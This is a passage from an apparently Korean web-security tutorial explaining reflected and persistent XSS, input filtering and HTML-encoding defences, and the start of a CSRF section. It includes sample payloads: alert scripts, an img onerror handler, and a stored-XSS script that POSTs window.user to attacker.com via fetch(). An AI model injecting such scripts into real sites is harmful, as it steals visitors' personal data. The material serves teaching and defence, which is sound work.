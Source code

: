 공격자는 웹 사이트에서 취약점을 찾아 낸 후, (네이버 쇼핑은 취약점이 없지만) 사용자에게 `https://search.shopping.naver.com/search/all?query=<script>alert('XSS')</script>`(이 링크는 `<script>alert('XSS')</script>` 검색 결과와 동일합니다.)와 같이 쿼리에 스크립트가 포함된 링크에 접속을 유도합니다. 사용자가 페이지에 접속하여 스크립트가 실행 된다면 비 지속적 XSS 공격이 성공하게 됩니다.

비 지속적 XSS는 검색 문자열을 그대로 화면에 다시 표시되는 점을 노린 공격이기 때문에 반사(Reflected) XSS라고도 불립니다.

### 지속적(Persistent) 공격 방법
지속적 XSS 공격은 비 지속적 XSS 공격보다 더 치명적인 공격 방법입니다. 게시판을 예로 들면, 공격자가 게시판 글쓰기 통해서 스크립트를 포함한 게시 글을 작성한 후 서버에 저장 합니다. 다른 사용자가 그 게시 글을 읽을 때 게시 글에 포함된 스크립트가 실행되면서 XSS 공격이 성공하게 됩니다. 게시 글에 그 글을 읽는 사용자의 이름과 이메일 등의 개인 정보를 공격자에게 전송하는 스크립트가 포함되어 있다고 하면, 게시 글을 읽는 모든 사람의 개인 정보가 유출되게 됩니다.

예를 들어, 사용자 정보가 window 객체의 user 필드에 저장되어 있다고 하면, 아래와 같이 공격자가 스크립트를 포함한 게시 글을 작성합니다.

```html
안녕하세요.

<script>
  fetch('http://attacker.com/user', {
    method: 'POST',
    body: JSON.stringify(window.user)
  });
</script>

반갑습니다.
```

`<script>` 태그는 화면에 노출되지 않기 때문에 사용자는 자신의 개인 정보가 유출되는지 모른 체 피해를 입게 됩니다. 한 번 스크립트가 실행 되는 게시 글을 올릴 수 있다면, 그 게시 글이 삭제 될 때까지 지속적으로 사용자들에게 피해를 줄 수 있기 때문에 지속적 XSS 공격이라고 이야기 합니다.

### 대응 방법
XSS 공격을 막기 위해서는 페이지에서 공격자가 입력한 스크립트를 실행하지 못하게 해야 합니다. 스크립트를 실행하지 못하게 하려면, 스크립트 입력을 막거나 브라우저가 스크립트를 실행하지 못하게 스크립트 값을 변경해야 합니다. XSS 공격은 보통 프론트엔드 측에서 대응해 줍니다.

#### 입력 값 제한
스크립트를 입력하지 못하게 하는 방법으로 XSS 공격을 막을 수 있습니다. 하지만 `<script>` 태그 뿐만 아니라 아래 코드와 같이 이벤트 핸들러를 사용하는 방법으로 스크립트를 실행 할 수 있습니다.

```html
<img src="#" onerror="alert('XSS')">
```

모든 케이스에 대응해서 입력 값을 제한하는 것은 쉽지 않기 때문에 입력 값 치환이 XSS 공격을 방어하는데 더 효과적입니다.

#### 입력 값 치환
XSS 공격은 HTML 태그를 사용하기 때문에 HTML 태그에 사용되는 `<`와 `>` 문자열을 인코딩한 `&lt`, `&gt`를 서버에 저장하거나 페이지를 그릴 때 인코딩한 값으로 화면에 그리는 방법입니다. 이렇게 인코딩이 되면 브라우저는 일반 문자열로 인식하여 페이지에 `<script></script>`로 노출되어 스크립트가 실행되지 않습니다.

## XSRF(Crose-Site Request Forgery)
사이트 간 요청 위조(XSRF 또는 CSRF라고 합니다.)는 사용자가 자신의 의지와 무관하게 공격자가 의도한 행위(수정, 삭제, 등록 등)를 특정 웹사이트에 요청하게 하는 공격입니다.

### 타겟이 되는 취약점
사이트 간 요청 위조는 특정 웹 사이트가 사용자의 웹 브라우저를 신뢰하는 상태를 노린 공격입니다. 사용자가 웹사이트에 로그인한 상태에서 사이트간 요청 위조 공격 코드가 삽입된 페이지를 열면, 공격 대상이 되는 웹사이트는 위조된 공격 명령이 믿을 수 있는 사용자로부터 발송된 것으로 판단하게 되어 공격에 노출됩니다.
